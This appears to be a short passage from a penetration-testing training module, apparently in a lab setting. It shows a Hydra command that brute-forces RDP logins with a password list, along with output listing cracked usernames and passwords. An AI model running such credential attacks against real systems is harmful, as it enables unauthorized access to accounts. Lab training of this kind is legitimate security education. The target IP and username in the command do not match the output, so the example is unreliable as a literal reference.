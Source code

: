 #### Hydra - RDP

We can also use `Hydra` to perform RDP bruteforcing.

  Hydra - RDP

```shell-session
Tachipy@htb[/htb]$ hydra -l "Johanna" -P ./password.list rdp:/10.129.163.211 -t 64

[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```